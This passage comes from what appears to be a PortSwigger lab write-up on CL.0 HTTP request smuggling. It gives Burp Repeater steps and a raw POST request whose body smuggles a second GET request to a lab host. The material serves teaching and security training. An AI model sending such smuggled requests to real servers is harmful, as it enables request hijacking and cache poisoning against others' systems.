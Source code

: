 **To test CL.0 HTTP request smuggling, we need to:**

1. Create one tab containing the setup request and another containing an arbitrary follow-up request. 
2. Add the two tabs to a group in the correct order.
3. Using the drop-down menu next to the **Send** button, change the send mode to **Send group in sequence (single connection)**.
4. Change the `Connection` header to `keep-alive`.
5. Send the sequence and check the responses.

- **Re-enable the "Update Content-Length" option:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226140302.png)

- **Add a body that'll smuggle a request:**

```http
POST / HTTP/1.1
Host: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

GET /404pls HTTP/1.1
X-Foo: x
```
